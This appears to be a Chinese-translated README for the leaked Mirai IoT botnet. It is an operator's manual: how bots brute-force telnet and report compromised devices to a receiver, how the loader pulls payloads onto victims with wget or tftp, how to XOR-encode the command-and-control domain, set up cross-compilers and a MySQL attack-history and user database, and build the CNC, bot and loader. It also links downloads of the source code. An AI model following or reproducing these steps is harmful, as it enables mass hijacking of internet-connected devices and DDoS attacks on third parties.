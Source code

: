 Mirai 使用手册

#综述
- 和 CNC 建立连接, bots 会请求解析域名 (resolv.c/resolv.h) 并且连接到域名对应到IP.
- Bots 使用一种高级的 SYN 扫描器 (比qbot快近80倍速度, 少使用接近20倍资源)进行暴力telnet连接. 当发现暴力telnet成功连接, bot 会请求另一个域名上报成功信息. 这是连接到一个单独服务器自动加载到设备的结果.
- 暴力破解结果默认通过48101端口接收. 接收代码在tools目录下的scanListen.go (我曾经试过每秒接收500条 ). 如果采用debug 模式编译, 你能在debug目录看到二进制信息出现.

Mirai 使用一个传播机制自我复制, 但是我称他为 “实时加载”. 总的来说, bots 爆破结果, 发送结果到接收服务器, 将结果发送给加载器. 这个过程 (爆破 -> 接收 -> 加载 -> 爆破) 就是被称为“实时加载”的过程.

加载器能够通过配置多个IP地址解决linux端口限制问题 (可用端口限制, linux 65k连接问题). 我或许同时通过个5 IP有 60k - 70k 出口连接.
* 可能可以使用 用户态 TCP 更好的解决单机65k 问题
https://github.com/pkelsey/libuinet


#Bot配置
Bot 有些配置信息(table.c/table.h) （./mirai/bot/table.h）是混淆过的,  通常在源文件你可以找到大部分的配置信息描述. 然而,  ./mirai/bot/table.c 这个文件当中的一些配置你必须修改过后才能运行.

- TABLE_CNC_DOMAIN -  CNC 域名 -  mirai 对DDoS 攻击防御非常有趣, 其他人试图攻击我的CNC, 但是我更新IP的速度快过他们找到我新IP速度, lol. 无所谓了 :)
- TABLE_CNC_PORT - CNC 端口, 设置成23
- TABLE_SCAN_CB_DOMAIN - 接收器域名，当发现爆破结果, 这个域名用来接收结果
- TABLE_SCAN_CB_PORT - 接收器端口, 设置成48101.

在 ./mirai/tools 可以找到 enc.c 源文件，必须进行编译，编译输出的信息放到 table.c 源文件里

在 mirai 目录外运行
```
./build.sh debug telnet
```
如果你没有配置交叉编译，你可能会看到一些交叉编译错误，这个是正常的，对于工具编译没有什么影响。

现在, 在 ./mirai/debug 你可以看到二进制运行文件 enc. 混淆过的bot连接信息可以使用下面的例子:
```
./debug/enc string fuck.the.police.com
```
The output should look like this
```
XOR'ing 20 bytes of data...
\x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22
```

更新例子里的 TABLE_CNC_DOMAIN 值, 用 enc 工具生成的十六进制的一长串的字符串替换掉. 另外, 你看到 "XOR'ing 20 bytes of data".  源文件类似下面这样:

```
add_entry(TABLE_CNC_DOMAIN, "\x41\x4C\x41\x0C\x41\x4A\x43\x4C\x45\x47\x4F\x47\x0C\x41\x4D\x4F\x22", 30); // cnc.changeme.com
```

替换过后源文件类似下面这样：
```
add_entry(TABLE_CNC_DOMAIN, "\x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22", 20); // fuck.the.police.com
```

这些配置有些是字符串有些是数字 (uint16 in network order / big endian).

#CNC配置
```
apt-get install mysql-server mysql-client
```
CNC 需要安装数据库才能使用, 使用以下命令:

```
# 从下载开始，所有运行都需要使用一个有权限的用户

apt-get install gcc golang electric-fence

mkdir /etc/xcompile
cd /etc/xcompile

wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2

tar -jxf cross-compiler-armv4l.tar.bz2
tar -jxf cross-compiler-i586.tar.bz2
tar -jxf cross-compiler-m68k.tar.bz2
tar -jxf cross-compiler-mips.tar.bz2
tar -jxf cross-compiler-mipsel.tar.bz2
tar -jxf cross-compiler-powerpc.tar.bz2
tar -jxf cross-compiler-sh4.tar.bz2
tar -jxf cross-compiler-sparc.tar.bz2

rm *.tar.bz2
mv cross-compiler-armv4l armv4l
mv cross-compiler-i586 i586
mv cross-compiler-m68k m68k
mv cross-compiler-mips mips
mv cross-compiler-mipsel mipsel
mv cross-compiler-powerpc powerpc
mv cross-compiler-sh4 sh4
mv cross-compiler-sparc sparc

-- END --

# 设置命令到运行环境的配置文件里 ~/.bashrc

# 交叉编译环境变量
export PATH=$PATH:/etc/xcompile/armv4l/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin
export PATH=$PATH:/etc/xcompile/i586/bin
export PATH=$PATH:/etc/xcompile/m68k/bin
export PATH=$PATH:/etc/xcompile/mips/bin
export PATH=$PATH:/etc/xcompile/mipsel/bin
export PATH=$PATH:/etc/xcompile/powerpc/bin
export PATH=$PATH:/etc/xcompile/powerpc-440fp/bin
export PATH=$PATH:/etc/xcompile/sh4/bin
export PATH=$PATH:/etc/xcompile/sparc/bin

# Golang 环境变量
export PATH=$PATH:/usr/local/go/bin
export GOPATH=$HOME/Documents/go

-- END --
```


CNC 初始化数据库:

表结构如下:
CREATE DATABASE mirai;

CREATE TABLE `history` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `user_id` int(10) unsigned NOT NULL,
  `time_sent` int(10) unsigned NOT NULL,
  `duration` int(10) unsigned NOT NULL,
  `command` text NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  PRIMARY KEY (`id`),
  KEY `user_id` (`user_id`)
);

CREATE TABLE `users` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `username` varchar(32) NOT NULL,
  `password` varchar(32) NOT NULL,
  `duration_limit` int(10) unsigned DEFAULT NULL,
  `cooldown` int(10) unsigned NOT NULL,
  `wrc` int(10) unsigned DEFAULT NULL,
  `last_paid` int(10) unsigned NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  `admin` int(10) unsigned DEFAULT '0',
  `intvl` int(10) unsigned DEFAULT '30',
  `api_key` text,
  PRIMARY KEY (`id`),
  KEY `username` (`username`)
);

CREATE TABLE `whitelist` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `prefix` varchar(16) DEFAULT NULL,
  `netmask` tinyint(3) unsigned DEFAULT NULL,
  PRIMARY KEY (`id`),
  KEY `prefix` (`prefix`)
);

创建数据库. 然后用下面命令增加用户,
```
INSERT INTO users VALUES (NULL, 'josh-G', 'mypasswordblahah', 0, 0, 0, 0, -1, 1, 30, '');
```

然后打开 ./mirai/cnc/main.go 源文件

编辑这些参数

```
const DatabaseAddr string   = "127.0.0.1"
const DatabaseUser string   = "root"
const DatabasePass string   = "password"
const DatabaseTable string  = "mirai"
```

这些参数就是数据库地址和账号密码等信息


#安装配置交叉编译器
交叉编译很简单直接参考下面的地址执行，编译完成必须重启或者重新加载.bashrc环境变量

http://pastebin.com/1rRCc3aD

#编译 CNC+Bot
CNC, bot, 相关代码工具:
1) http://santasbigcandycane.cx/mirai.src.zip - ### THESE LINKS WILL NOT LAST FOREVER
![Alt text](http://i.imgur.com/BVc7qJs.png "Optional title")


2) http://santasbigcandycane.cx/loader.src.zip - ### THESE LINKS WILL NOT LAST FOREVER

怎样编译 + CNC
在 mirai 目录, 运行 build.sh 脚本.

```
./build.sh debug telnet
```
debug模式 会输出debug到 ./mirai/debug 目录（连接信息，状态等等）

```
./build.sh release telnet
```
产品模式 会输出版本到  ./mirai/release 目录（连接信息，状态等等）产生的信息更小（大概60k），编译所有运行文件格式 "mirai.$ARCH" 到./mirai/release目录


[size=x-large]编译 Echo 加载器[/size]
Loader reads telnet entries from STDIN in following format:
[code]ip:port user:pass[/code]
会检测有没有 wget 或者  tftp 并且试着下载，如果没有会自动 类似wget的二进制执行文件。
```
./build.sh
```
如果你有一个文件可以用于加载你可以这样使用
```
cat file.txt | ./loader
```

记住 ulimit! 命令设置系统限制

##其它:
懒得翻了... 反正就是遇到问题无人解答，自己解决。
